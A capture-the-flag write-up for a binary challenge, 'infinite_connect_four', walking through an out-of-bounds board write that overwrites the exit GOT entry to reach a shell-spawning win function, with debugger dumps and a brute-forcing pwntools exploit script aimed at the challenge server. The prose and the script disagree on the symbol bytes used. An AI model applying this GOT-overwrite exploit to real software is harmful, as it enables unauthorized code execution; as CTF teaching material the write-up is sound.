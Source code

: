## Finding the bug
In the source code there is a main function that operates the game and also an uncalled `win` function that will open us a shell. We also find that the `game` function that is called in main within which we find the bug: 
```c
int colint = col - '0';
if (board[7][colint] == player1symbol || board[7][colint] == player2symbol) {
	// we have to shift the entire column down
	int lastfree = 0;
	while (board[lastfree][colint] == player1symbol || board[lastfree][colint] == player2symbol) {
		lastfree--;
}
```
Here we see that there is no check to see whether `lastfree` is negative and everytime the highest position on the board is full it will "shift the entire column down"
Hence it is possible for us to make the `lastfree` negative and then overwrite the data before the `board` whenever it shifts it down

In Binary Ninja, we dump the elf file in and see what data is stored before the `board`: 
![](../Assets/Screenshot%202025-06-02%20at%201.26.42%20PM.png)
We can see that the Global Offset Table is right above the board. Overwriting a GOT entry will allow us to redirect the program to the `win` function. Here in this case, exit is the last function and the nearest function to the board so that is what we will overwrite. So whenever `exit` is called, it will actually run `win` instead. 

So the board is at offset 0x60a0 and the GOT is at 0x6060 so there is a difference in 0x40 bytes

## Checking for file protections
```
hnin@ubuntu:~$ checksec infinite_connect_four
[*] '/home/hnin/infinite_connect_four'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
Notice here there is PIE enabled (so the runtime addresses are all randomised) but RELRO is only partial relro so GOT can still be overwritten. 

## Finding the offsets 
Lets verify this in runtime in gdb-pwndbg. 
Run the program, set the breakpoint at main:
```
pwndbg> got
State of the GOT of /home/hnin/infinite_connect_four:
GOT protection: Partial RELRO | Found 10 GOT entries passing the filter
[0x55555555a018] putchar@GLIBC_2.2.5 -> 0x555555555030 ◂— endbr64 
[0x55555555a020] puts@GLIBC_2.2.5 -> 0x555555555040 ◂— endbr64 
[0x55555555a028] __stack_chk_fail@GLIBC_2.4 -> 0x555555555050 ◂— endbr64 
[0x55555555a030] setbuf@GLIBC_2.2.5 -> 0x555555555060 ◂— endbr64 
[0x55555555a038] system@GLIBC_2.2.5 -> 0x555555555070 ◂— endbr64 
[0x55555555a040] printf@GLIBC_2.2.5 -> 0x555555555080 ◂— endbr64 
[0x55555555a048] fgets@GLIBC_2.2.5 -> 0x555555555090 ◂— endbr64 
[0x55555555a050] getchar@GLIBC_2.2.5 -> 0x5555555550a0 ◂— endbr64 
[0x55555555a058] setvbuf@GLIBC_2.2.5 -> 0x5555555550b0 ◂— endbr64 
[0x55555555a060] exit@GLIBC_2.2.5 -> 0x5555555550c0 ◂— endbr64 


pwndbg> x/32x 0x55555555a060
0x55555555a060 <exit@got.plt>:	0x555550c0	0x00005555	0x00000000	0x00000000
0x55555555a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x55555555a080:	0x00000000	0x00000000	0x5555a088	0x00005555
0x55555555a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x55555555a0a0 <board>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0b0 <board+16>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0c0 <board+32>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0d0 <board+48>:	0x20202020	0x20202020	0x20202020	0x20202020
```

We know that the board is `8*8` given the source code 
```c
char board[8][8] = {
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20'
};
```
But in each row of memory address here is it 16 bytes so each row in the memory here contains 2 rows of the game board. 
```
0x55555555a0a0 <board>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0b0 <board+16>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0c0 <board+32>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0d0 <board+48>:	0x20202020	0x20202020	0x20202020	0x20202020
```
So from above, we prob need to overwrite 7 rows until we reach the entry for the exit

## Testing the hypothesis
Run the program again in pwndbg. 
Setting player 1 symbol as `A` and player 2 as `B` for simple identification. Keep pressing `0` for the column for both Player 1 and 2 for a total of 16 times (8 times for each player)

Now if we observe the memory region again
```
pwndbg> x/32x 0x55555555a060
0x55555555a060 <exit@got.plt>:	0x55555041	0x00005555	0x00000042	0x00000000
0x55555555a070:	0x00000041	0x00000000	0x00000042	0x00000000
0x55555555a080:	0x00000041	0x00000000	0x5555a042	0x00005555
0x55555555a090:	0x00000041	0x00000000	0x00000042	0x00000000
0x55555555a0a0 <board>:	0x20202041	0x20202020	0x20202042	0x20202020
0x55555555a0b0 <board+16>:	0x20202041	0x20202020	0x20202042	0x20202020
0x55555555a0c0 <board+32>:	0x20202041	0x20202020	0x20202042	0x20202020
0x55555555a0d0 <board+48>:	0x20202041	0x20202020	0x20202042	0x20202020
```
We know that the last byte of the GOT entry for exit is overwritten by 0x41 which is `A`

So how do we overwrite it properly for the program to redirect to win. Overwrite the first column results in overwriting the last 2 hex digit in the GOT entry. So we need to overwrite both the first and second column to overwrite the last 4 hex digit in the GOT entry. There is a 1/16 chance that this will happen.

Then by instead of `A` and `B` for the player symbol we set them as `\x1f` and `\c9`

## Wait, what about PIE & ASLR? 
Apparently we can just bruteforce this a few times as the first few hex digits will most likely be the same so we just need to bruteforce it until the fourth last nibble matches and then we'll be able to redirect to win. 

## python pwn script
We just keep running this script until there isn't an SIGSEGV error and it spawns the shell
``` python
from pwn import * 

#p = process("./infinite_connect_four")
p = remote('challs.nusgreyhats.org', 33102) 

def send(payload):
	p.sendlineafter(b'> ', payload)
	
# first send the symbols of the players
send(b'\xc9') 
send(b'\xbf') 

#setting this will make sure the last byte is overwritten with \xc9 and the seonc last byte is overwrrite with \xbf
send(b'0') 
send(b'1') 

for i in range(15): 
	send(b'0') 
for i in range(15): 
	send(b'1') 

#this will call the exit function but then it will actually execute win
send(b'A') 
p.interactive()
```